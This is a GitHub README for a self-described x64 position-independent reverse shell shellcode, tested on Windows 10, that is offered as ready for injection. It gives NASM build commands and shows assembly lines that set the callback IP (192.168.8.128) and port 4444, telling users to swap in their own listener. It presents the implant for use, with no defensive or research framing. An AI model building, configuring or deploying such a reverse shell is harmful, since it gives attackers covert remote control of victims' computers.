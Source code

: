 # 🚀 x64 PIC Reverse Shell (BETA AF)

A **position-independent** reverse shell shellcode i put together for x64 systems. It works (tested on Windows 10), I built this sleep deprived and it's definitely a rough draft but expect cleaner code/docs soon.
---

### 🔥 Features (Kinda)
- Connects back to your IP/port for a shell
- PIC = Works anywhere in memory (in theory)
- Raw binary output ready for injection
---

## 👾 How to Build This Thing

**You’ll need:**
- A windows pc
- NASM installed
---

### Makefile Commands:
- `make all`: Compiles the source into a binary shellcode (`main.bin`).
- `make clean`: Deletes the compiled binary.

### Manual Build:
If you don’t want to use `make`, just do this:
```bash
nasm -f bin -g -O0 -o C:\Users\win10\Desktop\pic_implant\bin\main.bin src\main.asm
```

**Steps:**
1. **Edit `src/main.asm`**  
   Find these lines and replace with your IP/port:
   ```asm
       db "192.168.8.128", 0
       mov word [rsp+2], 0x5C11       ; ← 4444 (change this too)
   ```
